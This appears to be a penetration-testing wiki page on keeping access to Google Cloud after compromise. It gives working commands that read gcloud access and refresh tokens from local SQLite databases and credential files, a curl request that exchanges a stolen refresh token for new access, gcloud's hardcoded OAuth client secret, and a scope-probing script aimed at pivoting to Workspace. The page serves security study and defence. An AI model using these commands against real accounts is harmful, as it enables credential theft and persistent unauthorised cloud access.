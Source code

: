 # GCP - Token Persistance

{{#include ../../../banners/hacktricks-training.md}}

### Authenticated User Tokens

To get the **current token** of a user you can run:

```bash
sqlite3 $HOME/.config/gcloud/access_tokens.db "select access_token from access_tokens where account_id='<email>';"
```

Check in this page how to **directly use this token using gcloud**:

{{#ref}}
https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery/cloud-ssrf#id-6440-1
{{#endref}}

To get the details to **generate a new access token** run:

```bash
sqlite3 $HOME/.config/gcloud/credentials.db "select value from credentials where account_id='<email>';"
```

It's also possible to find refresh tokens in **`$HOME/.config/gcloud/application_default_credentials.json`** and in **`$HOME/.config/gcloud/legacy_credentials/*/adc.json`**.

To get a new refreshed access token with the **refresh token**, client ID, and client secret run:

```bash
curl -s --data client_id=<client_id> --data client_secret=<client_secret> --data grant_type=refresh_token --data refresh_token=<refresh_token> --data scope="https://www.googleapis.com/auth/cloud-platform https://www.googleapis.com/auth/accounts.reauth" https://www.googleapis.com/oauth2/v4/token
```

The refresh tokens validity can be managed in **Admin** > **Security** > **Google Cloud session control**, and by default it's set to 16h although it can be set to never expire:

<figure><img src="../../../images/image (11).png" alt=""><figcaption></figcaption></figure>

### Auth flow

The authentication flow when using something like `gcloud auth login` will open a prompt in the browser and after accepting all the scopes the browser will send a request such as this one to the http port open by the tool:

```
/?state=EN5AK1GxwrEKgKog9ANBm0qDwWByYO&code=4/0AeaYSHCllDzZCAt2IlNWjMHqr4XKOuNuhOL-TM541gv-F6WOUsbwXiUgMYvo4Fg0NGzV9A&scope=email%20openid%20https://www.googleapis.com/auth/userinfo.email%20https://www.googleapis.com/auth/cloud-platform%20https://www.googleapis.com/auth/appengine.admin%20https://www.googleapis.com/auth/sqlservice.login%20https://www.googleapis.com/auth/compute%20https://www.googleapis.com/auth/accounts.reauth&authuser=0&prompt=consent HTTP/1.1
```

Then, gcloud will use the state and code with a some hardcoded `client_id` (`32555940559.apps.googleusercontent.com`) and **`client_secret`** (`ZmssLNjJy2998hD4CTg2ejr2`) to get the **final refresh token data**.

> [!CAUTION]
> Note that the communication with localhost is in HTTP, so it it's possible to intercept the data to get a refresh token, however this data is valid just 1 time, so this would be useless, it's easier to just read the refresh token from the file.

### OAuth Scopes

You can find all Google scopes in [https://developers.google.com/identity/protocols/oauth2/scopes](https://developers.google.com/identity/protocols/oauth2/scopes) or get them executing:

```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-A/\-\._]*' | sort -u
```

It's possible to see which scopes the application that **`gcloud`** uses to authenticate can support with this script:

```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-Z/\._\-]*' | sort -u | while read -r scope; do
    echo -ne "Testing $scope         \r"
    if ! curl -v "https://accounts.google.com/o/oauth2/auth?response_type=code&client_id=32555940559.apps.googleusercontent.com&redirect_uri=http%3A%2F%2Flocalhost%3A8085%2F&scope=openid+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fuserinfo.email+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fcloud-platform+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fappengine.admin+$scope+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fsqlservice.login+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fcompute+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Faccounts.reauth&state=AjvFqBW5XNIw3VADagy5pvUSPraLQu&access_type=offline&code_challenge=IOk5F08WLn5xYPGRAHP9CTGHbLFDUElsP551ni2leN4&code_challenge_method=S256" 2>&1 | grep -q "error"; then
        echo ""
        echo $scope
    fi
done
```

After executing it it was checked that this app supports these scopes:

```
https://www.googleapis.com/auth/appengine.admin
https://www.googleapis.com/auth/bigquery
https://www.googleapis.com/auth/cloud-platform
https://www.googleapis.com/auth/compute
https://www.googleapis.com/auth/devstorage.full_control
https://www.googleapis.com/auth/drive
https://www.googleapis.com/auth/userinfo.email
```

it's interesting to see how this app supports the **`drive`** scope, which could allow a user to escalate from GCP to Workspace if an attacker manages to force the user to generate a token with this scope.

**Check how to** [**abuse this here**](../gcp-to-workspace-pivoting/#abusing-gcloud)**.**

### Service Accounts

Just like with authenticated users, if you manage to **compromise the private key file** of a service account you will be able to **access it usually as long as you want**.\
However, if you steal the **OAuth token** of a service account this can be even more interesting, because, even if by default these tokens are useful just for an hour, if the **victim deletes the private api key, the OAuh token will still be valid until it expires**.

### Metadata

Obviously, as long as you are inside a machine running in the GCP environment you will be able to **access the service account attached to that machine contacting the metadata endpoint** (note that the Oauth tokens you can access in this endpoint are usually restricted by scopes).

### Remediations

Some remediations for these techniques are explained in [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2)

### References

- [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1)
- [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2)

{{#include ../../../banners/hacktricks-training.md}}





